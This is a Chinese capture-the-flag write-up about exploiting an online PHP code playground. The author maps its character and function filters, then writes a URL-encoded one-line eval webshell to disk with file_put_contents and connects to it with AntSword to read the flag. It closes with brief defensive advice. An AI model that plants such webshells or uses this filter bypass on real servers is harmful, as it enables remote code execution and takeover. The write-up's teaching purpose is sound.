



### 内网渗透与高级社工-免杀payload制作-G1

#### 题目

你是一名安全研究员。近日，一个面向开发者的在线 PHP 代码试验场引起了你的注意——用户可以在页面上提交 PHP 代码片段，系统会在服务端执行并回显结果。虽然页面声称具备安全校验机制，但你怀疑它的防护并不完善。请访问该试验场，想办法读取服务器上的 flag。

#### PHP代码注入

一进去就是一个随便植入php代码的地方，咱们随便试试，看看有没有过滤或者隔离：

键入`phpinfo();`，它就老老实实地把php配置文件全发给我们了（WP同目录`材料/phpinfo.html`）。

很明显PHP版本是8.2.33；
搜索`disable_`可以看到php执行层并没有禁止任何函数和类：



搜索`basedir`，可以发现php执行层允许访问的目录不限，根目录也可以：



执行`echo file_get_contents("/flag");`，结果回显`运行请求未通过安全校验`，说明在后端代码中存在一定过滤逻辑。

#### 黑盒测试

我执行`file_get_contents();`运行成功，单独输入`/`被拦截，所以正则匹配的是一些特殊符号，很可能对函数没有什么过滤。

我执行`system("ls");`希望一步到位，可惜还是对函数做了一些过滤的，不给我使用！
尝试使用可变函数拼接，执行`$a=sys;$b=tem;$a$b("ls");`，发现`$`被过滤了！

我执行`echo getcwd();`拿到了php运行目录为`/var/www/html`。

我执行
`file_put_contents("123.php","gugugaga");echo file_get_contents("123.php");`则成功地收到了回显`gugugaga`；**文件写入可用**。

执行`file_put_contents("webshell.php","<?php @eval($_POST['gugugaga']);?>");`
发现不行，发现`_ < >`被过滤了。

总结下来，虽然没做Fuzz测试，但是也挺难受了，很多字符`$ _ < > /`被过滤，还有函数名称如`system`/`eval`。

#### 绕过它

这么多字符被过滤，那我想到的就只有编码了。

测试了一下，`%`没被过滤，可以考虑url编码。
(base64不考虑因为解码函数`base64_decode()`含有下划线)

payload：

```php
file_put_contents("webshell.php",urldecode("%3c%3fphp+%40eval(%24_POST%5b%27gugugaga%27%5d)%3b%3f%3e"));
```

上传成功，再用蚁剑连接：


成功找到了flag！

#### 总结与防御建议

<u>对于字符的过滤，当找不到其他办法避免使用该字符时，最好的办法是进行编码！</u>

防御php代码注入，假如某一个地方真的需要向用户开放一定权限，比如数学表达式求值，建议：

<u>不用`eval`，用解析器</u>。写一个解析器，设置白名单变量、白名单函数等。不直接eval执行代码。


